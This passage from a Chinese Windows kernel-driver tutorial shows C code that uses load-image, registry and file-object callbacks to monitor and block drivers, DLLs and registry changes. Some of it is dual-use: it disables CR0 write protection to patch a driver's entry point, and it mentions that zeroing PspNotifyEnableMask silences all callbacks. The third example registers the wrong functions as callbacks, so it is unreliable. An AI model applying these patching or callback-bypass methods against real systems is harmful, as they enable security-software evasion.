        else
        {
            // 得到装载主进程名
            UCHAR *load_name = GetCurrentProcessName();
            pDrvEntry = GetDriverEntryByImageBase(ImageInfo->ImageBase);
            DbgPrint("[LyShark DLL加载] 模块名称:%wZ --> 装载基址:%p --> 镜像长度: %d --> 装载主进程: %s \n", FullImageName, pDrvEntry, ImageInfo->ImageSize, load_name);
        }
    }
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    PsRemoveLoadImageNotifyRoutine((PLOAD_IMAGE_NOTIFY_ROUTINE)MyLySharkLoadImageNotifyRoutine);
    DbgPrint("[LyShark.com] 驱动卸载完成...");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark.com \n");

    PsSetLoadImageNotifyRoutine((PLOAD_IMAGE_NOTIFY_ROUTINE)MyLySharkLoadImageNotifyRoutine);
    DbgPrint("[LyShark.com] 驱动加载完成...");
    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

运行这个驱动程序，则会输出被加载的驱动详细参数。




### 7.4 内核运用LoadImage屏蔽驱动

在笔者上一篇文章`《内核监视LoadImage映像回调》`中`LyShark`简单介绍了如何通过`PsSetLoadImageNotifyRoutine`函数注册回调来`监视驱动`模块的加载，注意我这里用的是`监视`而不是`监控`之所以是监视而不是监控那是因为`PsSetLoadImageNotifyRoutine`无法实现参数控制，而如果我们想要控制特定驱动的加载则需要自己做一些事情来实现，如下`LyShark`将解密如何实现屏蔽特定驱动的加载。

要想实现`驱动屏蔽`其原理很简单，通过`ImageInfo->ImageBase`得到镜像基地址，然后调用`GetDriverEntryByImageBase`函数来得到程序的入口地址，找NT头的`OptionalHeader`节点，该节点里面就是被加载驱动入口，通过汇编在驱动头部写入`ret`返回指令，即可实现屏蔽加载特定驱动文件。

原理其实很容易理解，如果我们需要实现则只需要在`《内核监视LoadImage映像回调》`这篇文章的代码上稍加改进即可，当检测到`lyshark.sys`驱动加载时，直接跳转到入口处快速写入一个`Ret`让驱动返回即可，至于如何写出指令的问题如果不懂建议回头看看`《内核CR3切换读写内存》`文章中是如何读写内存的，这段代码实现如下所示。
```c
#include <ntddk.h>
#include <intrin.h>
#include <ntimage.h>

PVOID GetDriverEntryByImageBase(PVOID ImageBase)
{
    PIMAGE_DOS_HEADER pDOSHeader;
    PIMAGE_NT_HEADERS64 pNTHeader;
    PVOID pEntryPoint;
    pDOSHeader = (PIMAGE_DOS_HEADER)ImageBase;
    pNTHeader = (PIMAGE_NT_HEADERS64)((ULONG64)ImageBase + pDOSHeader->e_lfanew);
    pEntryPoint = (PVOID)((ULONG64)ImageBase + pNTHeader->OptionalHeader.AddressOfEntryPoint);
    return pEntryPoint;
}

VOID UnicodeToChar(PUNICODE_STRING dst, char *src)
{
    ANSI_STRING string;
    RtlUnicodeStringToAnsiString(&string, dst, TRUE);
    strcpy(src, string.Buffer);
    RtlFreeAnsiString(&string);
}

// 使用开关写保护需要在[C/C++]->[优化]->启用内部函数
// 关闭写保护
KIRQL  WPOFFx64()
{
    KIRQL  irql = KeRaiseIrqlToDpcLevel();
    UINT64  cr0 = __readcr0();
    cr0 &= 0xfffffffffffeffff;
    _disable();
    __writecr0(cr0);
    return  irql;
}

// 开启写保护
void  WPONx64(KIRQL  irql)
{
    UINT64  cr0 = __readcr0();
    cr0 |= 0x10000;
    _enable();
    __writecr0(cr0);
    KeLowerIrql(irql);
}

BOOLEAN DenyLoadDriver(PVOID DriverEntry)
{
    UCHAR fuck[] = "\xB8\x22\x00\x00\xC0\xC3";
    KIRQL kirql;
    /* 在模块开头写入以下汇编指令
    Mov eax,c0000022h
    ret
    */
    if (DriverEntry == NULL) return FALSE;
    kirql = WPOFFx64();
    memcpy(DriverEntry, fuck, sizeof(fuck) / sizeof(fuck[0]));
    WPONx64(kirql);
    return TRUE;
}

VOID MyLySharkComLoadImageNotifyRoutine(PUNICODE_STRING FullImageName, HANDLE ModuleStyle, PIMAGE_INFO ImageInfo)
{
    PVOID pDrvEntry;
    char szFullImageName[256] = { 0 };

    // MmIsAddress 验证地址可用性
    if (FullImageName != NULL && MmIsAddressValid(FullImageName))
    {
        // ModuleStyle为零表示加载sys
        if (ModuleStyle == 0)
        {
            pDrvEntry = GetDriverEntryByImageBase(ImageInfo->ImageBase);
            UnicodeToChar(FullImageName, szFullImageName);
            if (strstr(_strlwr(szFullImageName), "lyshark.sys"))
            {
                DbgPrint("[LyShark] 拦截SYS内核模块：%s", szFullImageName);
                DenyLoadDriver(pDrvEntry);
            }
        }
    }
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    PsRemoveLoadImageNotifyRoutine((PLOAD_IMAGE_NOTIFY_ROUTINE)MyLySharkComLoadImageNotifyRoutine);
    DbgPrint("驱动卸载完成...");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark.com \n");

    PsSetLoadImageNotifyRoutine((PLOAD_IMAGE_NOTIFY_ROUTINE)MyLySharkComLoadImageNotifyRoutine);
    DbgPrint("驱动加载完成...");
    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

首先运行我们的驱动，然后我们接着加载`lyshark.sys`则你会发现驱动被拦截了。



我们看下驱动加载器，提示的信息是拒绝访问，因为这个驱动其实是加载了的，只是入口处被填充了返回而已。



除了使用`Ret`强制返回的方法意外，屏蔽驱动加载还可以使用另一种方式实现禁用模块加载，例如当驱动被加载首先回调函数内可以接收到，当接收到以后直接调用`MmUnmapViewOfSection`函数强制卸载掉即可，如果使用这种方法实现则这段代码需要改进成如下样子。
```c
#include <ntifs.h>
#include <ntimage.h>
#include <intrin.h>

NTSTATUS MmUnmapViewOfSection(PEPROCESS Process, PVOID BaseAddress);
NTSTATUS SetNotifyRoutine();
NTSTATUS RemoveNotifyRoutine();

VOID LoadImageNotifyRoutine(PUNICODE_STRING FullImageName, HANDLE ProcessId, PIMAGE_INFO ImageInfo);
NTSTATUS U2C(PUNICODE_STRING pustrSrc, PCHAR pszDest, ULONG ulDestLength);
VOID ThreadProc(_In_ PVOID StartContext);

// 拒绝加载驱动
NTSTATUS DenyLoadDriver(PVOID pImageBase);

// 拒绝加载DLL模块
NTSTATUS DenyLoadDll(HANDLE ProcessId, PVOID pImageBase);

typedef struct _MY_DATA
{
    HANDLE ProcessId;
    PVOID pImageBase;
}MY_DATA, *PMY_DATA;

// 设置消息回调
NTSTATUS SetNotifyRoutine()
{
    NTSTATUS status = STATUS_SUCCESS;
    status = PsSetLoadImageNotifyRoutine(LoadImageNotifyRoutine);
    return status;
}

// 关闭消息回调
NTSTATUS RemoveNotifyRoutine()
{
    NTSTATUS status = STATUS_SUCCESS;
    status = PsRemoveLoadImageNotifyRoutine(LoadImageNotifyRoutine);
    return status;
}

VOID LoadImageNotifyRoutine(PUNICODE_STRING FullImageName, HANDLE ProcessId, PIMAGE_INFO ImageInfo)
{
    DbgPrint("PID: %d --> 完整路径: %wZ --> 大小: %d --> 基地址: 0x%p \n", ProcessId, FullImageName, ImageInfo->ImageSize, ImageInfo->ImageBase);

    HANDLE hThread = NULL;
    CHAR szTemp[1024] = { 0 };
    U2C(FullImageName, szTemp, 1024);
    if (NULL != strstr(szTemp, "lyshark.sys"))
    {
        // EXE或者DLL
        if (0 != ProcessId)
        {
            // 创建多线程 延时1秒钟后再卸载模块
            PMY_DATA pMyData = ExAllocatePool(NonPagedPool, sizeof(MY_DATA));
            pMyData->ProcessId = ProcessId;
            pMyData->pImageBase = ImageInfo->ImageBase;
            PsCreateSystemThread(&hThread, 0, NULL, NtCurrentProcess(), NULL, ThreadProc, pMyData);
            DbgPrint("[LyShark] 禁止加载DLL文件 \n");
        }
        // 驱动
        else
        {
            DenyLoadDriver(ImageInfo->ImageBase);
            DbgPrint("[LyShark] 禁止加载SYS驱动文件 \n");
        }
    }
}

// 拒绝加载驱动
NTSTATUS DenyLoadDriver(PVOID pImageBase)
{
    NTSTATUS status = STATUS_SUCCESS;
    PMDL pMdl = NULL;
    PVOID pVoid = NULL;
    ULONG ulShellcodeLength = 16;
    UCHAR pShellcode[16] = { 0xB8, 0x22, 0x00, 0x00, 0xC0, 0xC3, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90 };
    PIMAGE_DOS_HEADER pDosHeader = pImageBase;
    PIMAGE_NT_HEADERS pNtHeaders = (PIMAGE_NT_HEADERS)((PUCHAR)pDosHeader + pDosHeader->e_lfanew);
    PVOID pDriverEntry = (PVOID)((PUCHAR)pDosHeader + pNtHeaders->OptionalHeader.AddressOfEntryPoint);

    pMdl = MmCreateMdl(NULL, pDriverEntry, ulShellcodeLength);
    MmBuildMdlForNonPagedPool(pMdl);
    pVoid = MmMapLockedPages(pMdl, KernelMode);
    RtlCopyMemory(pVoid, pShellcode, ulShellcodeLength);
    MmUnmapLockedPages(pVoid, pMdl);
    IoFreeMdl(pMdl);

    return status;
}

// 调用 MmUnmapViewOfSection 函数来卸载已经加载的 DLL 模块
NTSTATUS DenyLoadDll(HANDLE ProcessId, PVOID pImageBase)
{
    NTSTATUS status = STATUS_SUCCESS;
    PEPROCESS pEProcess = NULL;

    status = PsLookupProcessByProcessId(ProcessId, &pEProcess);
    if (!NT_SUCCESS(status))
    {
        return status;
    }

    // 卸载模块
    status = MmUnmapViewOfSection(pEProcess, pImageBase);
    if (!NT_SUCCESS(status))
    {
        return status;
    }
    return status;
}

VOID ThreadProc(_In_ PVOID StartContext)
{
    PMY_DATA pMyData = (PMY_DATA)StartContext;
    LARGE_INTEGER liTime = { 0 };

    // 延时 1 秒 负值表示相对时间
    liTime.QuadPart = -10 * 1000 * 1000;
    KeDelayExecutionThread(KernelMode, FALSE, &liTime);

    // 卸载
    DenyLoadDll(pMyData->ProcessId, pMyData->pImageBase);

    ExFreePool(pMyData);
}

NTSTATUS U2C(PUNICODE_STRING pustrSrc, PCHAR pszDest, ULONG ulDestLength)
{
    NTSTATUS status = STATUS_SUCCESS;
    ANSI_STRING strTemp;

    RtlZeroMemory(pszDest, ulDestLength);
    RtlUnicodeStringToAnsiString(&strTemp, pustrSrc, TRUE);
    if (ulDestLength > strTemp.Length)
    {
        RtlCopyMemory(pszDest, strTemp.Buffer, strTemp.Length);
    }
    RtlFreeAnsiString(&strTemp);

    return status;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    PsRemoveLoadImageNotifyRoutine((PLOAD_IMAGE_NOTIFY_ROUTINE)RemoveNotifyRoutine);
    DbgPrint("驱动卸载完成...");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark.ocm \n");

    PsSetLoadImageNotifyRoutine((PLOAD_IMAGE_NOTIFY_ROUTINE)SetNotifyRoutine);
    DbgPrint("驱动加载完成...");
    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

加载这段驱动程序，当有DLL文件被加载后，则会强制弹出，从而实现屏蔽模块加载的作用。

当然用`LoadImage`回调做监控并不靠谱，因为它很容易被绕过，其实系统里存在一个开关，叫做`PspNotifyEnableMask`如果它的值被设置为`0`，那么所有的相关操作都不会经过回调，所有回调都会失效。




### 7.5 内核监控Register注册表回调

在笔者前一篇文章`《内核枚举Registry注册表回调》`中实现了对注册表的枚举，本章将实现对注册表的监控，不同于32位系统在64位系统中，微软为我们提供了两个针对注册表的专用内核监控函数，通过这两个函数可以在不劫持内核API的前提下实现对注册表增加，删除，创建等事件的有效监控，注册表监视通常会通过`CmRegisterCallback`创建监控事件并传入自己的回调函数，与该创建对应的是`CmUnRegisterCallback`当注册表监控结束后可用于注销回调。

CmRegisterCallback和CmUnRegisterCallback是Windows操作系统提供的两个内核API函数，用于注册和取消注册注册表回调函数。

注册表回调函数是一种内核回调函数，它可以用于监视和拦截系统中的注册表操作，例如键值的创建、修改和删除等。当有相关操作发生时，操作系统会调用注册的注册表回调函数，并将操作相关的信息传递给回调函数。

CmRegisterCallback函数用于注册注册表回调函数，而CmUnRegisterCallback函数则用于取消注册已经注册的回调函数。开发者可以在注册表回调函数中执行自定义的逻辑，例如记录日志、过滤敏感数据、或者阻止某些操作。

需要注意的是，注册表回调函数的注册和取消注册必须在内核模式下进行，并且需要开发者有一定的内核开发经验。同时，注册表回调函数也需要遵守一些约束条件，例如不能阻塞或挂起进程或线程的创建或访问，不能调用一些内核API函数等。

内核监控Register注册表回调在安全软件、系统监控和调试工具等领域有着广泛的应用。开发者可以利用这个机制来监视和拦截系统中的注册表操作，以保护系统安全。

 - CmRegisterCallback 设置注册表回调
 - CmUnRegisterCallback 注销注册表回调

默认情况下`CmRegisterCallback`需传入三个参数，参数一回调函数地址，参数二空余，参数三回调句柄，微软定义如下。
```c
// 参数1：回调函数地址
// 参数2：无作用
// 参数3：回调句柄
NTSTATUS CmRegisterCallback(
  [in]           PEX_CALLBACK_FUNCTION Function,
  [in, optional] PVOID                 Context,
  [out]          PLARGE_INTEGER        Cookie
);
```

自定义注册表回调函数`MyLySharkCallback`需要保留三个参数，`CallbackContext`回调上下文，`Argument1`是操作类型，`Argument2`定义详细结构体指针。
```c
NTSTATUS MyLySharkCallback(_In_ PVOID CallbackContext, _In_opt_ PVOID Argument1, _In_opt_ PVOID Argument2)
```
在自定义回调函数内`Argument1`则可获取到操作类型，类型是一个`REG_NOTIFY_CLASS`枚举结构，微软对其的具体定义如下所示。
```c
typedef enum _REG_NOTIFY_CLASS {
    RegNtDeleteKey,
    RegNtPreDeleteKey = RegNtDeleteKey,
    RegNtSetValueKey,
    RegNtPreSetValueKey = RegNtSetValueKey,
    RegNtDeleteValueKey,
    RegNtPreDeleteValueKey = RegNtDeleteValueKey,
    RegNtSetInformationKey,
    RegNtPreSetInformationKey = RegNtSetInformationKey,
    RegNtRenameKey,
    RegNtPreRenameKey = RegNtRenameKey,
    RegNtEnumerateKey,
    RegNtPreEnumerateKey = RegNtEnumerateKey,
    RegNtEnumerateValueKey,
    RegNtPreEnumerateValueKey = RegNtEnumerateValueKey,
    RegNtQueryKey,
    RegNtPreQueryKey = RegNtQueryKey,
    RegNtQueryValueKey,
    RegNtPreQueryValueKey = RegNtQueryValueKey,
    RegNtQueryMultipleValueKey,
    RegNtPreQueryMultipleValueKey = RegNtQueryMultipleValueKey,
    RegNtPreCreateKey,
    RegNtPostCreateKey,
    RegNtPreOpenKey,
    RegNtPostOpenKey,
    RegNtKeyHandleClose,
    RegNtPreKeyHandleClose = RegNtKeyHandleClose,
    //
    // .Net only
    //    
    RegNtPostDeleteKey,
    RegNtPostSetValueKey,
    RegNtPostDeleteValueKey,
    RegNtPostSetInformationKey,
    RegNtPostRenameKey,
    RegNtPostEnumerateKey,
    RegNtPostEnumerateValueKey,
    RegNtPostQueryKey,
    RegNtPostQueryValueKey,
    RegNtPostQueryMultipleValueKey,
    RegNtPostKeyHandleClose,
    RegNtPreCreateKeyEx,
    RegNtPostCreateKeyEx,
    RegNtPreOpenKeyEx,
    RegNtPostOpenKeyEx,
    //
    // new to Windows Vista
    //
    RegNtPreFlushKey,
    RegNtPostFlushKey,
    RegNtPreLoadKey,
    RegNtPostLoadKey,
    RegNtPreUnLoadKey,
    RegNtPostUnLoadKey,
    RegNtPreQueryKeySecurity,
    RegNtPostQueryKeySecurity,
    RegNtPreSetKeySecurity,
    RegNtPostSetKeySecurity,
    //
    // per-object context cleanup
    //
    RegNtCallbackObjectContextCleanup,
    //
    // new in Vista SP2 
    //
    RegNtPreRestoreKey,
    RegNtPostRestoreKey,
    RegNtPreSaveKey,
    RegNtPostSaveKey,
    RegNtPreReplaceKey,
    RegNtPostReplaceKey,

    MaxRegNtNotifyClass //should always be the last enum
} REG_NOTIFY_CLASS;
```

其中对于注册表最常用的监控项为以下几种类型，当然为了实现监控则我们必须要使用之前，如果使用之后则只能起到监视而无法做到监控的目的。

 - RegNtPreCreateKey 创建注册表之前
 - RegNtPreOpenKey   打开注册表之前
 - RegNtPreDeleteKey 删除注册表之前
 - RegNtPreDeleteValueKey 删除键值之前
 - RegNtPreSetValueKey 修改注册表之前

如果需要实现监视则，首先`CmRegisterCallback`注册一个自定义回调，当有消息时则触发`MyLySharkCallback`其内部获取到`lOperateType`操作类型，并通过`switch`选择不同的处理例程，每个处理例程都通过`GetFullPath`得到注册表完整路径，并打印出来，这段代码实现如下。
```c
#include <ntifs.h>
#include <windef.h>

// 未导出函数声明 pEProcess -> PID
PUCHAR PsGetProcessImageFileName(PEPROCESS pEProcess);

NTSTATUS ObQueryNameString(
    _In_ PVOID Object,
    _Out_writes_bytes_opt_(Length) POBJECT_NAME_INFORMATION ObjectNameInfo,
    _In_ ULONG Length,
    _Out_ PULONG ReturnLength
    );

// 注册表回调Cookie
LARGE_INTEGER g_liRegCookie;

// 获取注册表完整路径
BOOLEAN GetFullPath(PUNICODE_STRING pRegistryPath, PVOID pRegistryObject)
{
    // 判断数据地址是否有效
    if ((FALSE == MmIsAddressValid(pRegistryObject)) ||
        (NULL == pRegistryObject))
    {
        return FALSE;
    }
    // 申请内存
    ULONG ulSize = 512;
    PVOID lpObjectNameInfo = ExAllocatePool(NonPagedPool, ulSize);
    if (NULL == lpObjectNameInfo)
    {
        return FALSE;
    }
    // 获取注册表路径
    ULONG ulRetLen = 0;
    NTSTATUS status = ObQueryNameString(pRegistryObject, (POBJECT_NAME_INFORMATION)lpObjectNameInfo, ulSize, &ulRetLen);
    if (!NT_SUCCESS(status))
    {
        ExFreePool(lpObjectNameInfo);
        return FALSE;
    }
    // 复制
    RtlCopyUnicodeString(pRegistryPath, (PUNICODE_STRING)lpObjectNameInfo);
    // 释放内存
    ExFreePool(lpObjectNameInfo);
    return TRUE;
}

// 注册表回调函数
NTSTATUS MyLySharkCallback(_In_ PVOID CallbackContext, _In_opt_ PVOID Argument1, _In_opt_ PVOID Argument2)
{
    NTSTATUS status = STATUS_SUCCESS;
    UNICODE_STRING ustrRegPath;

    // 获取操作类型
    LONG lOperateType = (REG_NOTIFY_CLASS)Argument1;
    
    // 申请内存
    ustrRegPath.Length = 0;
    ustrRegPath.MaximumLength = 1024 * sizeof(WCHAR);
    ustrRegPath.Buffer = ExAllocatePool(NonPagedPool, ustrRegPath.MaximumLength);
    if (NULL == ustrRegPath.Buffer)
    {
        return status;
    }
    RtlZeroMemory(ustrRegPath.Buffer, ustrRegPath.MaximumLength);
    
    // 判断操作
    switch (lOperateType)
    {
        // 创建注册表之前
    case RegNtPreCreateKey:
    {
        // 获取注册表路径
        GetFullPath(&ustrRegPath, ((PREG_CREATE_KEY_INFORMATION)Argument2)->RootObject);
        DbgPrint("[创建注册表][%wZ][%wZ]\n", &ustrRegPath, ((PREG_CREATE_KEY_INFORMATION)Argument2)->CompleteName);
        break;
    }
    // 打开注册表之前
    case RegNtPreOpenKey:
    {
        // 获取注册表路径
        GetFullPath(&ustrRegPath, ((PREG_CREATE_KEY_INFORMATION)Argument2)->RootObject);
        DbgPrint("[打开注册表][%wZ][%wZ]\n", &ustrRegPath, ((PREG_CREATE_KEY_INFORMATION)Argument2)->CompleteName);
        break;
    }
    // 删除键之前
    case RegNtPreDeleteKey:
    {
        // 获取注册表路径
        GetFullPath(&ustrRegPath, ((PREG_DELETE_KEY_INFORMATION)Argument2)->Object);
        DbgPrint("[删除键][%wZ] \n", &ustrRegPath);
        break;
    }
    // 删除键值之前
    case RegNtPreDeleteValueKey:
    {
        // 获取注册表路径
        GetFullPath(&ustrRegPath, ((PREG_DELETE_VALUE_KEY_INFORMATION)Argument2)->Object);
        DbgPrint("[删除键值][%wZ][%wZ] \n", &ustrRegPath, ((PREG_DELETE_VALUE_KEY_INFORMATION)Argument2)->ValueName);

        // 获取当前进程, 即操作注册表的进程
        PEPROCESS pEProcess = PsGetCurrentProcess();
        if (NULL != pEProcess)
        {
            UCHAR *lpszProcessName = PsGetProcessImageFileName(pEProcess);
            if (NULL != lpszProcessName)
            {
                DbgPrint("进程 [%s] 删除了键值对 \n", lpszProcessName);
            }
        }
        break;
    }
    // 修改键值之前
    case RegNtPreSetValueKey:
    {
        // 获取注册表路径
        GetFullPath(&ustrRegPath, ((PREG_SET_VALUE_KEY_INFORMATION)Argument2)->Object);
        DbgPrint("[修改键值][%wZ][%wZ] \n", &ustrRegPath, ((PREG_SET_VALUE_KEY_INFORMATION)Argument2)->ValueName);
        break;
    }
    default:
        break;
    }

    // 释放内存
    if (NULL != ustrRegPath.Buffer)
    {
        ExFreePool(ustrRegPath.Buffer);
        ustrRegPath.Buffer = NULL;
    }

    return status;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint(("Uninstall Driver Is OK \n"));

    // 注销当前注册表回调
    if (0 < g_liRegCookie.QuadPart)
    {
        CmUnRegisterCallback(g_liRegCookie);
    }
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint(("hello lyshark.com \n"));

    // 设置注册表回调
    NTSTATUS status = CmRegisterCallback(MyLySharkCallback, NULL, &g_liRegCookie);
    if (!NT_SUCCESS(status))
    {
        g_liRegCookie.QuadPart = 0;
        return status;
    }

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

运行驱动程序，则会输出当前系统中所有针对注册表的操作，如下图所示。



如上的代码只能实现注册表项的监视，而如果需要监控则需要在回调函数`MyLySharkCallback`判断，如果指定注册表项是需要保护的则直接返回`status = STATUS_ACCESS_DENIED;`从而达到保护注册表的目的，核心代码如下所示。
```c
// 反注册表删除回调
NTSTATUS MyLySharkCallback(_In_ PVOID CallbackContext, _In_opt_ PVOID Argument1, _In_opt_ PVOID Argument2)
{
    NTSTATUS status = STATUS_SUCCESS;
    UNICODE_STRING ustrRegPath;

    // 获取操作类型
    LONG lOperateType = (REG_NOTIFY_CLASS)Argument1;
    ustrRegPath.Length = 0;
    ustrRegPath.MaximumLength = 1024 * sizeof(WCHAR);
    ustrRegPath.Buffer = ExAllocatePool(NonPagedPool, ustrRegPath.MaximumLength);
    if (NULL == ustrRegPath.Buffer)
    {
        return status;
    }

    RtlZeroMemory(ustrRegPath.Buffer, ustrRegPath.MaximumLength);
    // 判断操作
    switch (lOperateType)
    {
        // 删除键值之前
    case RegNtPreDeleteValueKey:
    {
        // 获取注册表路径
        GetFullPath(&ustrRegPath, ((PREG_DELETE_VALUE_KEY_INFORMATION)Argument2)->Object);
        DbgPrint("[删除键值][%wZ][%wZ]\n", &ustrRegPath, ((PREG_DELETE_VALUE_KEY_INFORMATION)Argument2)->ValueName);

        // 如果要删除指定注册表项则拒绝
        PWCH pszRegister = L"\\REGISTRY\\MACHINE\\SOFTWARE\\lyshark.com";
        if (wcscmp(ustrRegPath.Buffer, pszRegister) == 0)
        {
            DbgPrint("[lyshark] 注册表项删除操作已被拦截! \n");
            // 拒绝操作
            status = STATUS_ACCESS_DENIED;
        }
        break;
    }
    default:
        break;
    }

    // 释放内存
    if (NULL != ustrRegPath.Buffer)
    {
        ExFreePool(ustrRegPath.Buffer);
        ustrRegPath.Buffer = NULL;
    }

    return status;
}
```
运行驱动程序，然后我们尝试删除`\\LyShark\HKEY_LOCAL_MACHINE\SOFTWARE\lyshark.com`里面的子项，则会提示如下信息。



当然这里的`RegNtPreDeleteValueKey`是指的删除操作，如果将其替换成`RegNtPreSetValueKey`，那么只有当注册表被创建才会拦截，此时就会变成拦截创建。
```c
// 拦截创建操作
NTSTATUS MyLySharkCallback(_In_ PVOID CallbackContext, _In_opt_ PVOID Argument1, _In_opt_ PVOID Argument2)
{
    NTSTATUS status = STATUS_SUCCESS;
    UNICODE_STRING ustrRegPath;

    // 获取操作类型
    LONG lOperateType = (REG_NOTIFY_CLASS)Argument1;

    // 申请内存
    ustrRegPath.Length = 0;
    ustrRegPath.MaximumLength = 1024 * sizeof(WCHAR);
    ustrRegPath.Buffer = ExAllocatePool(NonPagedPool, ustrRegPath.MaximumLength);
    if (NULL == ustrRegPath.Buffer)
    {
        return status;
    }
    RtlZeroMemory(ustrRegPath.Buffer, ustrRegPath.MaximumLength);

    // 判断操作
    switch (lOperateType)
    {
    // 修改键值之前
    case RegNtPreSetValueKey:
    {
        // 获取注册表路径
        GetFullPath(&ustrRegPath, ((PREG_DELETE_VALUE_KEY_INFORMATION)Argument2)->Object);

        // 拦截创建
        PWCH pszRegister = L"\\REGISTRY\\MACHINE\\SOFTWARE\\lyshark.com";
        if (wcscmp(ustrRegPath.Buffer, pszRegister) == 0)
        {
            DbgPrint("[lyshark] 注册表项创建操作已被拦截! \n");
            status = STATUS_ACCESS_DENIED;
        }
        break;
    }
    default:
        break;
    }

    // 释放内存
    if (NULL != ustrRegPath.Buffer)
    {
        ExFreePool(ustrRegPath.Buffer);
        ustrRegPath.Buffer = NULL;
    }

    return status;
}
```
加载驱动保护，然后我们尝试在`\\LyShark\HKEY_LOCAL_MACHINE\SOFTWARE\lyshark.com`里面创建一个子项，则会提示创建失败。




### 7.6 内核监控FileObject文件回调

本篇文章与上一篇文章`《内核注册并监控对象回调》`所使用的方式是一样的都是使用`ObRegisterCallbacks`注册回调事件，只不过上一篇博文中`LyShark`将回调结构体`OB_OPERATION_REGISTRATION`中的`ObjectType`填充为了`PsProcessType`和`PsThreadType`格式从而实现监控进程与线程，本章我们需要将该结构填充为`IoFileObjectType`以此来实现对文件的监控，文件过滤驱动不仅仅可以用来监控文件的打开，还可以用它实现对文件的保护，一旦驱动加载则文件是不可被删除和改动的。

ObRegisterCallbacks是Windows操作系统提供的一个内核API函数，用于注册对象回调函数。对象回调函数是一种内核回调函数，可以用于监视和拦截系统中的对象操作，例如文件、进程、线程等。

在文件系统中，FileObject是内核中表示文件对象的结构体，包含了文件的相关信息，例如文件名、文件句柄、访问权限等。当操作系统执行文件操作时，会使用FileObject结构体来表示文件对象。

通过ObRegisterCallbacks函数，开发者可以注册FileObject的回调函数，并在其中执行自定义逻辑，例如记录文件访问日志、过滤敏感数据等。当操作系统执行与FileObject相关的操作时，例如文件的创建、打开、读取、写入等操作，会调用已注册的回调函数，并将相关的操作信息传递给回调函数。

需要注意的是，FileObject回调函数的注册和取消注册必须在内核模式下进行，并且需要开发者有一定的内核开发经验。同时，回调函数也需要遵守一些约束条件，例如不能阻塞或挂起进程或线程的创建或访问，不能调用一些内核API函数等。

内核监控FileObject文件回调在安全软件、系统监控和调试工具等领域有着广泛的应用。开发者可以利用这个机制来监视和拦截系统中的文件操作，以保护系统安全。

与进程线程回调有少许的不同，文件回调需要开启驱动的`TypeInfo.SupportsObjectCallbacks`开关，并定义一些微软结构，如下是我们所需要的公开结构体，可在微软官方或WinDBG中获取到最新的，将其保存为`lyshark.h`方便后期引用。
```c
#include <ntddk.h>
#include <ntstrsafe.h>

typedef struct _CALLBACK_ENTRY
{
    LIST_ENTRY CallbackList;
    OB_OPERATION  Operations;
    ULONG Active;
    PVOID Handle;
    POBJECT_TYPE ObjectType;
    POB_PRE_OPERATION_CALLBACK  PreOperation;
    POB_POST_OPERATION_CALLBACK PostOperation;
    ULONG unknown;
} CALLBACK_ENTRY, *PCALLBACK_ENTRY;

typedef struct _LDR_DATA                         // 24 elements, 0xE0 bytes (sizeof)
{
    /*0x000*/     struct _LIST_ENTRY InLoadOrderLinks;                     // 2 elements, 0x10 bytes (sizeof)
    /*0x010*/     struct _LIST_ENTRY InMemoryOrderLinks;                   // 2 elements, 0x10 bytes (sizeof)
    /*0x020*/     struct _LIST_ENTRY InInitializationOrderLinks;           // 2 elements, 0x10 bytes (sizeof)
    /*0x030*/     VOID*        DllBase;
    /*0x038*/     VOID*        EntryPoint;
    /*0x040*/     ULONG32      SizeOfImage;
    /*0x044*/     UINT8        _PADDING0_[0x4];
    /*0x048*/     struct _UNICODE_STRING FullDllName;                      // 3 elements, 0x10 bytes (sizeof)
    /*0x058*/     struct _UNICODE_STRING BaseDllName;                      // 3 elements, 0x10 bytes (sizeof)
    /*0x068*/     ULONG32      Flags;
    /*0x06C*/     UINT16       LoadCount;
    /*0x06E*/     UINT16       TlsIndex;
    union                                                    // 2 elements, 0x10 bytes (sizeof)
    {
        /*0x070*/         struct _LIST_ENTRY HashLinks;                        // 2 elements, 0x10 bytes (sizeof)
        struct                                               // 2 elements, 0x10 bytes (sizeof)
        {
            /*0x070*/             VOID*        SectionPointer;
            /*0x078*/             ULONG32      CheckSum;
            /*0x07C*/             UINT8        _PADDING1_[0x4];
        };
    };
    union                                                    // 2 elements, 0x8 bytes (sizeof)
    {
        /*0x080*/         ULONG32      TimeDateStamp;
        /*0x080*/         VOID*        LoadedImports;
    };
    /*0x088*/     struct _ACTIVATION_CONTEXT* EntryPointActivationContext;
    /*0x090*/     VOID*        PatchInformation;
    /*0x098*/     struct _LIST_ENTRY ForwarderLinks;                       // 2 elements, 0x10 bytes (sizeof)
    /*0x0A8*/     struct _LIST_ENTRY ServiceTagLinks;                      // 2 elements, 0x10 bytes (sizeof)
    /*0x0B8*/     struct _LIST_ENTRY StaticLinks;                          // 2 elements, 0x10 bytes (sizeof)
    /*0x0C8*/     VOID*        ContextInformation;
    /*0x0D0*/     UINT64       OriginalBase;
    /*0x0D8*/     union _LARGE_INTEGER LoadTime;                           // 4 elements, 0x8 bytes (sizeof)
}LDR_DATA, *PLDR_DATA;

typedef struct _OBJECT_TYPE_INITIALIZER                                                                                                                                         // 25 elements, 0x70 bytes (sizeof)
{
    /*0x000*/     UINT16       Length;
    union                                                                                                                                                                       // 2 elements, 0x1 bytes (sizeof)
    {
        /*0x002*/         UINT8        ObjectTypeFlags;
        struct                                                                                                                                                                  // 7 elements, 0x1 bytes (sizeof)
        {
            /*0x002*/             UINT8        CaseInsensitive : 1;                                                                                                                                   // 0 BitPosition
